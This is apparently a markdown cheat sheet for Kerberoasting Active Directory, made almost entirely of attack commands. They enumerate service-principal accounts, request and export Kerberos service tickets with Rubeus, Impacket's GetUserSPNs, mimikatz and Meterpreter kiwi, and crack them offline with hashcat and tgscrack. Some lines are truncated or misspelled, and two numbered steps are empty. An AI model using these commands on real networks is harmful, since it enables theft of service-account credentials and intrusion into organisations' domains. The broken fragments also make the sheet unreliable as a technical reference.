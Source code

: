 # Kerberoast

1. Get Users with SPNs
GetUserSPNs.ps1

2. Get Service Tickets
Add-Type -AssemblyName System.Identit

3. Extract Tickets


4. Crack Ticket

setspn –a DC1/SVC_SQLService.ignite.local:60111 ignite\SVC_SQLService
MSSQLsvc/DC1@ignite.loal

Windows

setspn -T ignite -Q */*

./Rubeus.exe kerberoast /outfile:hashes.kerberoast

hashcat -m 13100 --force -a 0 hashes.kerberoast dict.txt

kerberos::list
kerberos::list /export


Linux

 ./GetUserSPNs.py -request -dc-ip 192.168.1.105 ignite.local/yashika



 Remote

 load kiwi
 kerberos_ticket_list
 kiwi_cmd kerberos::list

 kiwi_cmd kerberos::list /export


 https://blog.cobalt.io/kerberoast-attack-techniques-79dd0166a65d


 https://github.com/leechristensen/tgscrack


 go run tgscrack.go -hashfile hash -wordlist /usr/share/wordlists/rockyou.txt


 Import-Module .\Find-PotentiallyCrackableAccounts.ps1
 Find-PotentiallyCrackableAccounts -FullData -Verbose
 Import-Module .\Export-PotentiallyCrackableAccounts.ps1
 Export-PotentiallyCrackableAccounts








